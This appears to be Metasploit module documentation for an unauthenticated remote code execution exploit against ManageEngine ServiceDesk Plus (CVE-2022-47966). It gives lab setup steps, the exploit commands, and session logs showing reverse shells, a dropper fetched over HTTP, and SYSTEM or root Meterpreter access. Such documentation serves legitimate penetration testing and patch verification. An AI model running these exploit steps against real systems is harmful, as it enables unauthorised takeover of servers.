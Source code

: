 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ServiceDesk Plus versions 14003 and below
(CVE-2022-47966). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ServiceDesk Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/

Save the certificate to a local file (e.g. `cert.cer`) and take note of the SSO
URL (`https://mocksaml.com/api/saml/sso`).

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and
select ServiceDesk Plus product with any version (e.g. `14003`). You can then
have access to all the versions and platform installers.

### Windows
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, select `Start ServiceDesk Server`
   and click `Finish`
1. Go to `C:\Program Files\ManageEngine\ServiceDesk\bin\` and run `SDPLaunch`.
   This will start a browser and get you to the login page.

### Linux (Ubuntu)
1. Make the installer executable executing `chmod +x <linux_installer>.bin`
1. Launch the Linux installer as root, select all the default options by
   clicking `Next` until you reach the installation path page.
1. Change the installation path to somewhere else than under `/root/` (it
   doesn't work with this default path) and finish the installation. You might
   get an error 'Problem in initializing Postgres', just ignore it, click `OK`
   and finish the installation. We'll fix this in the next step.
1. If you got the `Postgres` error in the last step, go to the installation
   base path (e.g. '/opt/ManageEngine/ServiceDesk/') and run the following
   commands as root:
    - `cp tools/postgres/bin/gettimezone tools/postgres/bin/gettimezone_32`
    - `cp tools/postgres/bin/gettimezone_64 tools/postgres/bin/gettimezone`
    - `cd bin`
    - `./initPgsql.sh`
1. Start the server running `run.sh`

### Enable SAML 2.0 SSO
1. Go to `http://localhost:8080`
1. Select `Log in as` `Administrator`.
1. Go to `http://localhost:8080/app#/admin` and click on `SAML Single Sign On`
   in the `​​Users & Permission` section.
1. In `Configure Identity Provider Details`, set the SSO URL from the IdP (e.g.
   `https://mocksaml.com/api/saml/sso`), set the `Name ID Format` to
   `Unspecified`, the `Algorithm` to `RSA_SHA1` and select the SiP certificate
   file (e.g. `cert.cer`).
1. In `Additional Claims` > `Default Fields`, set the `Login Name` to any
   value.
1. Click `Save`
1. Enable SSO by switching the `Enable SAML Single Sign-On ?` button on the top
   of the page.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP>`
1. You should get a shell
1. Also test with other targets against Windows and Linux


## Options

### TARGETURI
The ServiceDesk Plus SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. ServiceDesk Plus has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.


## Scenarios

### ServiceDesk Plus versions 14003 on Windows - Target 1 (`Windows Command`)
```
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:51417) at 2023-01-26 12:07:43 +0100

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Windows - Target 0 (`Windows EXE Dropper`)
```
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 0
target => 0
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.104 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.104
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.104:51435) at 2023-01-26 12:08:42 +0100
[*] Command Stager progress - 100.00% done (12025/12025 bytes)

meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Command`)
```
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 2
target => 2
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (24380 bytes) to 192.168.100.109
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.109:43062) at 2023-01-26 16:07:21 +0100

meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.15.0-58-generic #64~20.04.1-Ubuntu SMP Fri Jan 6 16:42:31 UTC 2023
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```

### ServiceDesk Plus versions 14003 on Linux (Ubuntu) - Target 2 (`Unix Dropper`)
```
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > set target 3
target => 3
msf exploit(multi/http/manageengine_servicedesk_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.109 lhost=192.168.100.1

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.100.1:8080/55oyjyc1i
[*] Client 192.168.100.109 (curl/7.68.0) requested /55oyjyc1i
[*] Sending payload to 192.168.100.109 (curl/7.68.0)
[*] Sending stage (3045348 bytes) to 192.168.100.109
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.109:40138) at 2023-01-26 16:09:37 +0100
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.109
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

